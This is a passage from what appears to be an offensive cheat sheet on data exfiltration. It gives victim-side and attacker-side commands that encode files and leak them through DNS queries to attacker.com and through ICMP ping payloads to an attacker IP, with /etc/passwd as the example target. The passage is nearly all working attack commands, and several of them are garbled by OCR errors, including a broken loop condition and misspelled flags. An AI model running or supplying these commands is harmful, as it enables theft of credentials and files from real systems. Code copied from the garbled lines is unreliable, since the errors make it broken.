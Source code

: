 ```
tcpdump -r dnsdemo -n | grep shell.attacker.com | cut -f9 -d' '| cut -fl -d'.' | uniq decoded.txt
```

Lastly we reverse the encoding

```
xxd -r -p decoded.txt output
```

\#Method-2 **On the victim machine** First we en

```
base64 targetfile > outputfile
```

Then with `for` loop we can send the content to the attacker domain

```
for c in `cat outputfile`; do dig $c.attacker.com; done;
```

**On the attacker machine** We run Tcpdump to listen on port 53 and capture the packets sent from the victim to an output file `output.txt`

```
tcpdump -i ens33 -w dns.cap port 53

tcpdump -r dns.cap | grep A? | cut -f 9 -d ' ' | cut -f 1 -d '.' | base64
-d > output.txt
```

### ICMP Exfiltration

**On Target Machine** Execute the below on liner. We are assuming that we want to exfiltrate the contents of `/etc/passwd`.

```
stringz='cat /etc/passwd | od -tx1 | cut -c8- I tr -d " " | tr -d "\n"';
```

Execute the below loop. Make sure to insert the correct domain/IP of the attacker C2 server.

```
counter=0; 
while (($counter = ${#stringZ})} ;
do ping -s 16 -c l -p
${stringZ:$counter:16} attacker-ip &&
counter=$( (counter+6)) ;done
```

**On Attacker Machine** Execute the below tcpdump command to receive and decode the file into `output.dmp`

```
tcpdump -ntvvSxs 0 'icmp[0]=8' output.dmp | 
grep Ox0020 output.dmp | cut -c21- | tr -d " " | tr -d "\n" | xxd -r -p
```

### SSH Exfiltration
